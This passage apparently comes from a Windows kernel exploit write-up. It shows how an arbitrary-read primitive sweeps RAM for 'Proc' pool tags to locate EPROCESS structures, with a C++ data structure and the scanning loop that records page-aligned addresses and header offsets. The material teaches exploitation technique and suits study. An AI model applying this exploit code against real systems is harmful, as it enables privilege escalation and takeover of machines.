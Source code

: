 ### Leveraging Read What Where
The difficulty on my Windows build was that the length from my `"Proc"` tag once found, to the beginning of the `EPROCESS` structure where I know the offsets to the members I want varied wildly. So much so that in order to get the exploit working reliably, I just simply had to create my own data structure and store instances of them in a vector. The data structure was as follows:
```
struct PROC_DATA {
    std::vector<INT64> proc_address;
    std::vector<INT64> page_entry_offset;
    std::vector<INT64> header_size;
};
```

So as I'm using our Read What Where primitive to blow through all the RAM hunting for `"Proc"`, if I find an instance of `"Proc"` I'll iterate `0x10` bytes at a time until I find a marker signifying the end of our pool headers and the beginning of `EPROCESS`. This marker was `0x00B80003`. So now, I'll have the `proc_address` the literal place where `"Proc"` was and store that in `PROC_DATA.proc_address`, I'll also annotate how far that address was from the nearest page-aligned memory address (a multiple of `0x1000`) in `PROC_DATA.proc_address` and also annotate how far from `"Proc"` it was until we reached our marker or the beginning of `EPROCESS` in `PROC.header_size`. These will all be stored in a vector.

You can see this routine here:
```cpp
INT64 results_begin = ((INT64)output_buff + 0xc);
        for (INT64 i = 0; i < 0xF60; i = i + 0x10) {

            PINT64 proc_ptr = (PINT64)(results_begin + 0x4 + i);
            INT32 proc_val = *(PINT32)proc_ptr;

            if (proc_val == 0x636f7250) {

                for (INT64 x = 0; x < 0xA0; x = x + 0x10) {

                    PINT64 header_ptr = PINT64(results_begin + i + x);
                    INT32 header_val = *(PINT32)header_ptr;

                    if (header_val == 0x00B80003) {

                        proc_count++;
                        cout << "\r[>] Proc chunks found: " << dec <<
                            proc_count << flush;

                        INT64 temp_addr = input_buff.start_address + i;

                        // This address might not be page-aligned to 0x1000
                        // so find out how far off from a multiple of 
                        // 0x1000 we are. This value is stored in our 
                        // PROC_DATA struct in the page_entry_offset
                        // member.
                        INT64 modulus = temp_addr % 0x1000;
                        proc_data.page_entry_offset.push_back(modulus);

                        // This is the page-aligned address where, either
                        // small or large paged memory will hold our "Proc"
                        // chunk. We store this as our proc_address member
                        // in PROC_DATA.
                        INT64 page_address = temp_addr - modulus;
                        proc_data.proc_address.push_back(
                            page_address);
                        proc_data.header_size.push_back(x);
                    }
                }
            }
```